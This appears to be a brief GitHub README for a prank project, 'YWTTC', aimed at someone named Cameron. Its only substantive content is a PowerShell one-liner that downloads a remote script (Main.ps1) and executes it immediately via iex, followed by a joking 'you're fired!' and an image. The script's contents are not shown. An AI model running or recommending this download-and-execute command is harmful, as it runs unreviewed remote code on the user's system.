 # YWTTC = You Won This Time Cameron!
#### But we all know who's gonna be the ultimate winner!!
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/Main.ps1'))
```

Also, you're fired!\
![alt text](https://github.com/Refr3sh/YWTTC/raw/main/download.jpg)
